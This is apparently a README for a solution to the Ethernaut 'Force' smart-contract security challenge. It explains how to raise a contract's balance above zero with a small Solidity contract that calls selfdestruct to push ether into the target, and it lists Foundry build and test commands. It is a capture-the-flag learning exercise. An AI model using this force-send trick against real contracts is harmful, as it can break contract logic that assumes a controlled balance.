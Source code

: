 # Question Statement
Some contracts will simply not take your money ¯\_(ツ)_/¯

The goal of this level is to make the balance of the contract greater than zero.

  Things that might help:

    Fallback methods
    Sometimes the best way to attack a contract is with another contract.
- Reference -> https://ethernaut.openzeppelin.com/level/0x46f79002907a025599f355A04A512A6Fd45E671B

# Solution Approach
using selfdestruct from another contract
```solidity
contract TemperarySelfDestructContract {
    function attack(address payable _addr) external {
        // it will show warning but ignore that
        selfdestruct(_addr);
    }

    fallback() external payable {}

    receive() external payable {}
}
```

# Test Code File 
- [Force.t.sol](./test/Force.t.sol)


# Test Output
![test output](image.png)


# Code Setup 
``` 
$ forge install
$ forge build
$ forge test -vvvv
```

# Reference
- [vm.deal()](https://book.getfoundry.sh/cheatcodes/deal)
- [assertEq()](https://book.getfoundry.sh/reference/forge-std/assertEq)
